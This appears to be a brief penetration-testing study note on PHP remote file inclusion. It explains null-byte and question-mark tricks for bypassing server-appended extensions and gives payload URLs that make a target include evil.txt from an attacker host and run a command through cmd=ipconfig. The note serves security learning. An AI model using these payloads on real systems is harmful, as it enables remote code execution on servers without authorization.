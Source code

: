 ### RFI 

RFI by default (PHP) load and execute a file.

*Older versions of PHP have a vulnerability in which a null byte (%00) will
terminate any string. This trick can be used to bypass file extensions added
server-side and is useful for file inclusions because it prevents the file extension
from being considered as part of the string. In other words, if an application
reads in a parameter and appends “.php” to it, a null byte passed in the parameter
effectively ends the string without the “.php” extension. 
This gives an attacker more flexibility in what files can be loaded with the file inclusion vulnerability.

*Another trick for RFI payloads is to end them with a question mark (?) to mark
anything added to the URL server-side as part of the query string.*

### RFI Payload

```http
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
```

### RFI Exploit

```http
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
```
